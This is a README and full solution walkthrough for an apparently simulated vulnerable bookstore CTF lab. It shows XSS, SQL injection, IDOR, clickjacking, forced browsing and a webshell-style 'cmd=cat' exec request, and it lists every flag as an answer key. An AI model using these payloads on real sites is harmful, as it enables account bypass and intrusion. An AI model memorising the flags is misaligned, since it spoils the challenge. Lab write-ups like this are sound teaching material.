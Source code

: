 # BookTryHackMe
Test your web-hacking skills on a realistic, simulated bookstore website! Explore multiple pages that look and behave like a real app while hunting hidden flags-learn by finding and exploiting common web vulnerabilities, including:

* SQL Injection (SQLi)
* XML External Entity (XXE) simulation
* Insecure Direct Object Reference (IDOR)
* Reflected Cross-Site Scripting (XSS)
* Stored (persistent) XSS
* Unrestricted File Uploads (safe lab simulation)
* Clickjacking (framing)
* Forced browsing / exposed static files


Discover hidden flags by exploiting these vulnerabilities safely in a CTF environment.

---

# BookStore CTF - Detailed Walkthrough (Exploits + Code)

## Flag 001 - Default/Test Credentials (Welcome flag)

**Location:** `GET/POST /login` (Login page)
**Why vulnerable:** Developer/test credentials are left in the page source (HTML comment / leftover).
**How to exploit:**

* Open Login page.
* View page source (Ctrl+U).
* Search for `DEFAULT CREDENTIALS` / `test@example.com` / `Welcome123`.
* Use found credentials to log in.
  **Example creds (lab):**

```
test@example.com
Welcome123
```

**Expected result:** `THM{welcome_flag_001}`

---

## Flag 002 - IDOR (Hidden profile)

**Location:** `GET /profile?id=<id>`
**Why vulnerable:** Server returns profile based only on numeric `id` parameter without verifying requester ownership.
**How to exploit:**

* Log in with any account.
* Open your profile `/profile?id=1`.
* Change URL to `/profile?id=99` and reload.
  **Expected result:** `THM{idor_hidden_flag_002}`

---

## Flag 003 - Stored XSS (Review form)

**Location:** `POST /book?id=<n>` (review form on a book page)
**Why vulnerable:** Review input is stored and later rendered unsanitized (persistent XSS).
**How to exploit (payload examples):**

* Submit review text containing a payload, e.g.:

```html
<img src=x onerror=alert('xss')>
```

or

```html
<script>alert('xss')</script>
```

* Open the book page in a different session or reload — payload executes.
  **Expected result (lab triggers flag when payload detected):** `THM{stored_xss_flag_003}`

---

## Flag 004 - Reflected XSS (Search page, Burp bypass)

**Location:** `GET /search?query=...`
**Why vulnerable:** The `query` param is reflected into the page without proper encoding; naive filters block `<script>` but can be bypassed via encoding/event attributes.
**How to exploit (use Burp / URL encode):**

* Capture `GET /search?query=term` in Burp Proxy → send to Repeater.
* Replace `query` with a URL-encoded event payload, e.g.:

```
%3Cimg%20src%3Dx%20onerror%3Dalert('xss')%3E
```

* Replay request and view page — payload executes.
  **Alternate bypass:** use `onmouseover` in an `<a>` tag encoded.
  **Expected result:** `THM{reflected_xss_flag_04}`

---

## Flag 005 - Unrestricted File Upload (Simulated webshell exec)

**Location:** `POST /upload_profile` (uploads saved to `/static/uploads/`) and `/uploads/exec/<file>?cmd=...` (simulated exec)
**Why vulnerable:** App allows uploads to web-served directory and provides a simulated exec endpoint that reads files. (In lab, execution is simulated for safety.)
**How to exploit:**

1. Upload file via profile upload form (e.g., name it `myshell.php` or `myshell.txt`).
2. Confirm reachability: `https://<HOST>/uploads/myshell.php`
3. Call simulated exec endpoint:

```
http://<HOST>/uploads/exec/myshell.php?cmd=cat%20/opt/flag_shell.txt
```

**Expected result:** `THM{shell_flag_05}`

---

## Flag 006 - Clickjacking (Index framing)

**Location:** Home page `/` (index)
**Why vulnerable:** Page can be framed — missing `X-Frame-Options` / `Content-Security-Policy: frame-ancestors`. The app detects being framed and shows the flag.
**How to exploit (local attacker page):** create `attack.html`:

```html
<!doctype html>
<html>
  <body>
    <iframe src="http://<HOST>/" style="width:1000px;height:800px;border:0"></iframe>
  </body>
</html>
```

* Open `attack.html` in browser (file:// or local http server).
  **Tip:** Use Firefox if Chrome blocks embedding.
  **Expected result:** `THM{clickjack_flag_06}`

---

## Flag 007 - SQL Injection (Login simulation)

**Location:** `POST /login` (login form)
**Why vulnerable:** Lab simulates unsafe string concatenation in SQL queries (demonstration branch detects classic SQLi).
**How to exploit (payload):**

* Email or password field:

```
' OR '1'='1
```

* Submit form.
  **Why it works:** The payload makes the login WHERE clause always true. (CTF detects SQLi pattern and returns flag.)
  **Expected result:** `THM{SQLi_successful}`

---

## Flag 009 - Forced Browsing / Sensitive static file

**Location:** `/static/admin/flag.txt` (or similar common admin static paths)
**Why vulnerable:** Sensitive file(s) left in webroot and accessible without authentication.
**How to exploit (forced browse / curl):**

```
curl -v https://<HOST>/static/admin/flag.txt
```

or just visit `https://<HOST>/static/admin/flag.txt` in browser.
**Expected result:** `THM{Final_hidden_flag_09}`

---

Collect all individual flags:

```
THM{welcome_flag_001}

THM{idor_hidden_flag_002}

THM{stored_xss_flag_003}

THM{reflected_xss_flag_04}

THM{shell_flag_05}

THM{clickjack_flag_06}

THM{SQLi_successful}

THM{Final_hidden_flag_09}
```
